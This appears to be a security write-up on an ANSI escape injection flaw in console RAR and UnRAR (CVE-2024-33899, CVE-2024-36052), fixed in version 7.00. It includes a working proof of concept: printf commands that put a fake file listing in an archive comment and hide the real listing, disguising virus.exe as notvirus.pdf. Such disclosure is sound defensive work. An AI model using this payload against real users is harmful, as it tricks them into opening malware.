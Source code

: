 # CVE-2024-33899: ANSI Escape Injection Vulnerability in WinRAR

## Overview

On February 28, 2024, RARLAB released an update for WinRAR, addressing an ANSI escape sequence injection vulnerability identified in the console versions of RAR and UnRAR. This vulnerability, tracked as CVE-2024-33899 for Linux and Unix systems and CVE-2024-36052 for Windows systems, affects versions 6.24 and earlier. It allows attackers to spoof screen output or cause a denial of service on Linux and Unix. This issue was resolved in version 7.00. It is important to note that the GUI version of WinRAR and the UnRAR library were not impacted by this vulnerability.

## Understanding the Vulnerability

### ANSI Escape Sequences

If you are familiar with the Linux, Unix, or Windows command line, you’ve likely encountered programs like Vim and Neofetch. These programs utilize ANSI escape sequences to modify text and background color, control the cursor, and create graphical user interfaces within the terminal. Although ANSI escape sequences can create advanced terminal programs, they can also be weaponized, as demonstrated in Stok Fredrik’s DEFCON talk.

### How WinRAR is Affected

WinRAR provides console versions of RAR and UnRAR, which can be used to create and extract RAR archives. RAR files support comments, which are displayed when listing the contents of the archive using the command `unrar l demo.rar`.

#### Vulnerability Demonstration

To check if ANSI escape sequences are filtered out in the comment section, we can use a simple payload that will display "THIS IS GREEN" in green text.

```bash
printf 'Hello \033[32mTHIS IS GREEN\033[0m\007' | rar c demo.rar
```
Upon executing rar l demo.rar, the output shows "THIS IS GREEN" in green, indicating that the comment field does not filter ANSI escape sequences.

Exploitation
This vulnerability can be exploited in various ways. Here, we will demonstrate an exploit suited for WinRAR.

Creating the Exploit
First, we will place our virus.exe file inside a RAR archive:

```bash
$ ls 
virus.exe
$ rar a demo.rar virus.exe
```

Next, we will add the following payload to the comment section:
```bash
printf 'Archive: demo.rar\nDetails: RAR 5\n\nAttributes      Size       Date   Time   Name\n----------- ---------  ---------- -----  ---------\n-rw-r--r--          7  2024-05-19 16:26  notvirus.pdf\n----------- ---------  ---------- -----  ---------\n                    7                    1\e[8m' | rar c demo.rar
```

This payload includes a fake listing where virus.exe is replaced with notvirus.pdf. The ANSI escape sequence \e[8m is used to hide all content after the comment section in the output. Consequently, the actual file listing is hidden, and our fake file listing is displayed.

## Result
In the screenshot above, you can see a large gap between the output and the shell prompt. This gap is due to the original file listing being outputted but rendered invisible using \e[8m. While experienced command line users may find this suspicious, less experienced users could easily be tricked.


## Conclusion
The ANSI escape sequence injection vulnerability in the console versions of RAR and UnRAR posed a significant risk, allowing attackers to spoof output and potentially cause denial of service. This issue, identified as CVE-2024-33899 for Linux and Unix systems and CVE-2024-36052 for Windows, was addressed in WinRAR version 7.00. Users are strongly encouraged to update to the latest version to protect against this vulnerability. The GUI version of WinRAR and the UnRAR library remain unaffected by this issue.
